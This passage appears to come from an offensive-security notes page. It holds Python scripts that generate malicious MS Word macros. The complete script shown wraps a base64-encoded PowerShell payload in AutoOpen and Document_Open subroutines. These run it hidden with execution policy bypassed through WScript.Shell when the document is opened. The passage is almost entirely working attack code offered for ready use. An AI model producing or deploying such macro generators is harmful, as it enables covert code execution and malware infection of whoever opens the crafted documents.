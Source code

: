 ```python
    & {payload}\r
      a = Shell(Text, vbHide)\r
    End Sub\
  """.replace('\t', '')

  return payload


if __name__ == '__main__':
  print(gen_payload_vbshell(args.pwsh_file, args.chunk_size))
```
{% endcode %}

Generate a ready-to-paste malicios MS Word macro (execution is provided by [WScript.Shell](https://docs.microsoft.com/ru-ru/windows-server/administration/windows-commands/wscript)):

{% code title="gen_doc_autoopen_payload_wscript_shell.py" %}
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import sys
from base64 import b64encode
from argparse import ArgumentParser

parser = ArgumentParser()
parser.add_argument('pwsh_file', help='PowerShell script to execute')
parser.add_argument('--chunk-size', type=int, default=50, help='length of a payload chunk line')
args = parser.parse_args()


def gen_payload_wscript_shell(pwsh_file, chunk_size):
  with open(pwsh_file, 'r', encoding='utf-8') as f:
    chunks = f.read()

  chunks = chunks.encode('utf-16le')
  chunks = b64encode(chunks).decode()
  chunks = [chunks[i:i+chunk_size] for i in range(0, len(chunks), chunk_size)]
  chunks = [f'"{chunk}"' for chunk in chunks]

  print('Sub AutoOpen()\r')
  print('  Evil\r')
  print('End Sub\r\n')

  print('Sub Document_Open()\r')
  print('  Evil\r')
  print('End Sub\r\n')

  print('Sub Evil()\r')
  print('  Dim Text As String\r')
  print('  Text = "powershell -exec bypass -nop -nologo -w hidden -enc "\r')

  for chunk in chunks:
    print(f'  Text = Text + {chunk}\r')

  print('  CreateObject("WScript.Shell").Run Text\r')
  print('End Sub')


if __name__ == '__main__':
  print(gen_payload_wscript_shell(args.pwsh_file, args.chunk_size))
```
{% endcode %}
